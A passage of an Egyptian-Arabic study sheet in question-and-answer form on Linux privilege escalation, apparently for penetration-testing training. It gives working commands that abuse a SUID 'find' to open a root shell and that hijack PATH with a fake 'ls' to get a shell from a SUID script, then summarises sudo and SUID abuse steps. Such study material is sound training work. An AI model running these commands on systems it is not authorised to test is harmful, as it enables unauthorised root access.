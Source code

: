 #### 39. اكتب أمر عشان تستغل `find` بـ SUID تفتح Shell.  
    /usr/bin/find . -exec /bin/bash -p \;

#### 40. اكتب أوامر عشان تعدل الـ PATH وتستغل ملف SUID بيستدعي `ls`.  
    echo "/bin/sh" > ls  
    chmod +x ls  
    export PATH=.:$PATH  
    /custom_script

---

# **أسئلة الخلاصة**
41. قولي الخلاصة بتاعت الجزء الأول ("استغلال أوامر sudo (Abusing Sudo Privileges)").  
    **"لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات root. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها."**

42. قولي الخلاصة بتاعت الجزء التاني ("استغلال ملفات SUID (Abusing SUID Binaries)").  
    **"لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root."**

43. قولي الخلاصة بتاعت الجزء التالت ("خطوات Pentesting عملية لاستغلال sudo و SUID").  
    **"1. `sudo -l` ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root. 2. لو لقيت SUID file، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة. 3. لو ملف بيستدعي أوامر خارجية، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك."**

